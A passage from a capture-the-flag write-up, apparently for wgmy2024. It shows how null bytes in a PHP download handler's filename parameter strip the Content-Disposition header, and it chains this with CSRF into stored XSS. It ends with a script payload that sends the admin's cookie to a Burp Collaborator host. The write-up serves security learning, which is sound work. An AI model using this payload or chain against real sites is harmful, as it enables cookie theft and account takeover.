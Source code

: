 ```php
			  die();
			}
		}else{
			http_response_code(404);
			die();
		}
	}
?>
```
The `Content-Type` header is set to `text/html`, which means the file we upload the browser will treated as HTML code! Unfortunately, got `Content-Disposition` which means the browser will download the file directly.. The goal is obviously XSS, and no other place is vulnerable, then how do we solve this?

## Solving

We can control the filename of the downloaded file because our parameter is directly append after the `Content-Disposition` header:
```php
header('Content-Disposition: attachment; filename="' . $_POST["name"] . '"');
```
If you put binary value such as null bytes in the `name` parameter, notice the header will disappear! Because PHP will ignore the header if it contains invalid values!

![](/uploads/wgmy2024/myfile.png)

Because this download function only works on POST request, so we need to host a CSRF request HTML file to perform CSRF attack to trigger the XSS payload we uploaded! Because no CSRF token implemented in the website

First step is to upload a XSS script to steal admin cookie:

We used Burp Collaborator to steal its cookie:
```html
<script type="text/javascript">
	document.location = "http://ng763gwhra8zfzjcs4hf27mxgomfa6yv.oastify.com?cookie="+document.cookie;
</script>
```
